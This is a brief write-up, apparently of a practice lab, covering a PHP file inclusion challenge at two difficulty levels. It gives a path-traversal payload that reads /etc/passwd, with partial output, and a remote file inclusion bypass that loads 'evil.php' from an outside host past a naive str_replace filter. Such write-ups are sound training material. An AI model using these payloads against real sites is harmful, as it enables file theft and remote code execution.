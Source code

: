 # File Inclusion

The file inclusion challenge gives a single instruction:

```
To include a file edit the ?page=index.php in the URL to determine which file is included. 
```

## Low

```php
$file = $_GET['page']; //The page we wish to display
```

```
?page=../../../../../../../../../../etc/passwd
```

Result:

```
root:x:0:0:root:/root:/bin/bash
[..redacted]
jsrn:x:1000:1000:jsrn,,,:/home/jsrn:/bin/zsh
```

## Medium

```php
$file = $_GET['page']; // The page we wish to display 

// Bad input validation
$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);
```

This input validation is indeed bad! It removes all instances of `http://` or `https://` from the file name before including it. In theory, this means we can no longer include a file by url.

*Except...*

```
?page=hthttp://tp://www.example.com/evil.php
```

still works! The str_replace only does one pass, so once the first is removed, the result is still:

```
?page=http://www.example.com/evil.php
```

Muahaha.